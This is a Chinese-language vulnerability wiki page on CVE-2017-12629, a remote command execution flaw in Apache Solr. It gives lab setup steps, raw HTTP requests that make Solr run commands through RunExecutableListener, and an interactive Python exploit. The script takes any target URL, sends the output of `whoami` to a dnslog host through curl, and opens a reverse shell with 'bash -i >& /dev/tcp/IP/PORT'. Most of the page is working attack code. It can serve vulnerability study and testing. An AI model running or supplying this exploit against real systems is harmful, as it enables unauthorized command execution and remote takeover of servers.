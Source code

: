 # Apache Solr RCE 远程命令执行漏洞 CVE-2017-12629

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：[XML实体扩展漏洞（XXE）](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-XXE)和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

## 影响版本

```
Apache Solr < 7.1
```

## 环境搭建

```plain
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629
docker-compose build
docker-compose up -d
```

## 漏洞复现

先请求url地址获取 core 内容

http://xxx.xxx.xxx.xxx:8983/solr/admin/cores



![image-20220209115009776](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091150843.png)

通过查看代码，能够触发命令执行的事件有两个：postCommit 和 newSearcher

![image-20220209115027117](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091150170.png)

第一个请求包用于载入缓存中

exe : ping  执行的命令

dir: 命令存在的目录位置

args:命令参数

如下请求包执行的是 /bin/ping 1.1.1.1

```json
POST /solr/demo/config HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener-1",
    "class":"solr.RunExecutableListener",
    "exe":"ping",
    "dir":"/bin/",
    "args":["1.1.1.1"]
  }
}
```

![image-20220209115046585](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091150685.png)

第二个请求包用于更新缓存并执行命令

```json
POST /solr/demo/update HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

[{"id":"test"}]
```

![image-20220209115108238](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091151324.png)

注意 第一个请求包的这个位置 "name":"newlistener-1",listerer的名字需要替换

例如第一次 为 newlistener-1 ，第二次则需要改为 newlistener-2

注意 第二个请求包的这个位置  [{"id":"test"}]，同第一个请求包的name，每执行一次就需要更换 id ,例如第一次 为 test ，第二次则需要改为 tset-2

注意 Content-Type: application/json 需要添加

不更改执行发生报错示例

![image-20220209115145295](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091151387.png)

进入docker容器查看发现命令已经执行

![image-20220209115203844](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091152887.png)

使用 newSearcher可以直接加载入缓存执行命令

请求包如下

```json
POST /solr/demo/config HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"newSearcher",
    "name":"newlistener-2",
    "class":"solr.RunExecutableListener",
    "exe":"bash",
    "dir":"/bin/",
    "args":[
         "-c",
         "mkdir /tmp/vuln",
    ]
  }
}
```

注意点同上，也需要每次执行更改 "name":"newlistener-2" 的参数

![image-20220209115226709](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091152811.png)



成功执行了创建文件的命令

![image-20220209115246047](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091152090.png)

如果想要执行其他命令,则需要命令的的位置，例如执行ping，则需要设置dir参数为 /usr/bin/ping 或者 /bin/ping，如果需要检测漏洞是否存在则可以使用 dnslog来检测

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json
import random

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr < 7.1                                        \033[0m')
    print('+  \033[36m使用格式: python3 cve-2017-12629.py                                 \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983                            \033[0m')
    print('+  \033[36mcmd    >>> dnslog地址(漏洞外连检测)                                  \033[0m')
    print('+  \033[36mCmd    >>> shell(反弹shell)                                        \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name, dnslog_url, n):
    exp_url = target_url + "/solr/" + core_name + "/config"
    dnslog_url = "`whoami`." + dnslog_url
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    payload_cmd = """
    {"add-listener":{"event":"postCommit","name":"newSearche-%s","class":"solr.RunExecutableListener","exe":"curl","dir":"/usr/bin/","args":["%s"]}}
    """ % (n, dnslog_url)

    response = requests.request("POST", url=exp_url, headers=headers, data=payload_cmd, timeout=30)
    if "add-listener" in response.text:
        print("\033[32m[o] 成功执行，请查看dnslog \033[0m")
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_3(target_url, core_name, n, ip, port):
    exp_url = target_url + "/solr/" + core_name + "/config"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    payload_cmd = """
        {"add-listener":{"event":"postCommit","name":"newSearche-%s","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c","bash -i >& /dev/tcp/%s/%s 0>&1"]}}
        """ % (n, ip, port)

    response = requests.request("POST", url=exp_url, headers=headers, data=payload_cmd, timeout=30)
    if "add-listener" in response.text:
        print("\033[32m[o] 成功执行 \033[0m")
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)

    while True:
        n = random.randint(1, 9999)
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            exit(0)
        elif cmd == "shell":
            IP   = str(input("\033[35m请输入监听IP   >>> \033[0m"))
            PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
            POC_3(target_url, core_name, n, IP, PORT)
        elif cmd == "dnslog":
            dnslog_url = str(input('\033[35m请输入你的dnslog地址：\033[0m'))
            POC_2(target_url, core_name, dnslog_url, n)
```

![image-20220209115514982](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091155228.png)



![image-20220209115536548](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091155591.png)

如果shell或dnslog无反应，可以选择更改一下POC的部分参数执行需要的代码

## 参考文章

[Apache Solr远程代码执行漏洞（CVE-2017-12629）从利用到入侵检测](https://www.freebuf.com/sectool/159970.html)

[cve-2017-12629 apache solr xxe & rce 漏洞分析](https://blog.csdn.net/whatday/article/details/106974271?utm_medium=distribute.pc_relevant.none-task-blog-title-7&spm=1001.2101.3001.4242)

